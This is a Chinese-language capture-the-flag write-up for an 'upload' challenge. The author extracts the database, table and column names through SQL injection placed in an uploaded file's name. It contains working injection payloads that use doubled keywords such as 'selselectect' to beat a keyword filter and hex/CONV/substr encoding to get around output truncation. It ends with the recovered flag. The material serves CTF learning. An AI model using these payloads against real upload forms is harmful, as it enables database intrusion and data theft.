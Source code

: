 # upload
## 题目描述
如题目环境有问题，稍等片刻后刷新即可。
## 思路
http://220.249.52.133:59493  
点开题目链接，是个注册页面，一如既往的随便注册，然后登录，发现有回显，是把用户名回显了，并且有上传文件的地方：  
![avatar](./picture/upload_1.png)  
一开始以为是要在这个地方注入，因为和前端时间做的 unfinish 很相似，结果试了下，并不行，他直接把我用户名，毫无处理的回显出来了：  
![avatar](./picture/upload_2.png)  
题目是 upload，那应该是在上传文件上下功夫，尝试了一句话木马，并不知道访问路径，并且也没办法通过 bp 绕过后缀检查。然后想到文件名注入，这个在《代码审计》的第64页：  
因为一般程序员都不会注意到对文件名进行过滤，但是又需要把文件名保存到数据库中，所以就会存在SQL注入漏洞。  
如此，就是构造文件名了，首先直接尝试最简单的 select database()：  
0'+(select database())+'.jpg  
回显了0：  
![avatar](./picture/upload_3.png)  
难不成是存在过滤？再试试：  
0'+(selselectect DAtabase())+'.jpg  
还是回显0，以为是思路错了，就去看了 wp，发现这个思路没错，但是文件名要复杂些，因为该网站对文件名还是做了一些过滤的……  
```sql
0'+(selselectect CONV(substr(hex(dAtaBase()),1,12),16,10))+'  
```
***
这里稍作解释，selselectect 是为了绕过关键字过滤，后面的 from 是同样的道理。对数据库名进行 hex 编码是为了绕过字母截断，本题遇到字母就会进行截断，这与外面的 CONV() 函数的使用是一个道理，因为十六进制的表示中存在 a b c d e f 六个字母，会被截断。substr() 是为了绕过科学计数法的表示，当 substr(hex(dAtaBase()),1,13) 时，效果如下：  
![avatar](./picture/upload_4.png)  
这样，我们无法获得准确的数字。
***
![avatar](./picture/upload_5.png)  
先把得到的数字转十六进制，然后进行 hex 解码，发现是有意义的字母：web_up，继续找出数据库名，然后再找表名和列名即可：  
```sql
//表名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(table_name) frofromm information_schema.tables where table_schema='web_upload')),1,12),16,10))+'
//列名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(column_name) frofromm information_schema.columns where table_name='hello_flag_is_here')),1,12),16,10))+'
```
最后，拼接解码后的列名得到 flag：  
!!_@m_Th.e_F!lag  


## 补充知识
1. CONV(N, from_base, to_base)  
CONV() 函数的目的是把 N 从 from_base 进制转换为 to_base 进制。本题之所以用到，是因为本题会过滤掉数字之外的字符，并在此处截断，以至无法获得正确的答案。   
2. 本题得到的十进制数字必须先解码，然后再拼接，如果先拼接，再转十六进制、解码的话，会解码失败。
